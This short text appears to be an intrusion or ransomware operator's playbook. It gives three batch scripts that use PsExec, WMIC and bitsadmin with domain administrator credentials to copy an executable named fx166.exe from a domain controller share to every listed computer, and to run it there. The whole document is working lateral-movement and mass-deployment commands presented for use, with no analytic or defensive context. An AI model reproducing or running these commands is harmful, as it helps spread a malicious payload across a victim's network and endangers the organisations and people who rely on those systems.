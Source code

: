 # COLLECTING A DOMAIN FOR COPYING A FILE
```
start PsExec.exe /accepteula @C:\share$\comps1.txt -u DOMAIN\ADMINISTRATOR -p PASSWORD cmd /c COPY "\\PRIMARY ДОМЕН КОНТРОЛЛЕР\share$\fx166.exe" "C:\windows\temp\"
```
WE SAVE AS "COPY.BAT"

# COLLECTING A DOMAIN TO RUN A FILE
```
start PsExec.exe -d @C:\share$\comps1.txt -u DOMAIN\ADMINISTRATOR -p PASSWORD cmd /c c:\windows\temp\fx166.exe
```
WE SAVE AS "EXE.BAT"

# COLLECTING WMI DATABASE FOR COPYING AND RUNNING A FILE ALL OVER THE DOMAIN
```
start wmic /node:@C:\share$\comps1.txt /user:"DOMAIN\Administrator" /password:"PASSWORD" process call create "cmd.exe /c bitsadmin /transfer fx166 \\ДОМЕН КОНТРОЛЛЕР\share$\fx166.exe %APPDATA%\fx166.exe&%APPDATA%\fx166.exe"
```
WE SAVE AS "WMI.BAT"
